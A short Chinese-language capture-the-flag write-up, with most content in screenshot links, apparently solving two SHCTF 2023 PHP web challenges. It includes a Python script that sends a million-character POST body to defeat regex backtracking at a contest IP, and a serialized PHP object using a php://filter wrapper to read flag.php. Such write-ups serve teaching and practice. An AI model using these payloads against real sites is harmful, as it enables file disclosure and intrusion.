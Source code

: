 ![](https://s2.loli.net/2024/03/08/9fPEFT5ZYxOmRj4.png)

![](https://s2.loli.net/2024/03/08/yCagipwA8el9RJ3.png)

![](https://s2.loli.net/2024/03/08/CfhA7uLzEF2IR6V.png)

### **[WEEK1]1zzphp**

正则回溯绕过，正则匹配数组绕过



![](https://s2.loli.net/2024/03/08/qtKxZkaWlcjSeiI.png)

num[]=1 绕过前两个 if

后面两个 if 绕过如下 [blog.csdn.net](https://blog.csdn.net/yourdawntown/article/details/120558237)

```python
import requests

data={"c_ode":"a"*1000000+"2023SHCTF"}
url="http://112.6.51.212:30028/?num[]=1"
res = requests.post(data=data,url=url)

print(res.text)
```

![](https://s2.loli.net/2024/03/08/QGYVbsW84yI5PfM.png)

### **[WEEK2]no_wake_up**

wake_up 绕过



![](https://s2.loli.net/2024/03/08/wlnrA89Y64ZWozH.png)

绕过 wake up 即可，利用伪协议读 flag.php

![](https://s2.loli.net/2024/03/08/cETJxLbj7VeS2Fr.png)

构造 payload：

```
<?php

class flag{
    public $username='admin';
    public $code='php://filter/read=convert.base64-encode/resource=flag.php';}
$a=new flag();
echo serialize($a);
?>
```

**O:4:"flag":2:{s:8:"username";s:5:"admin";s:4:"code";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}**
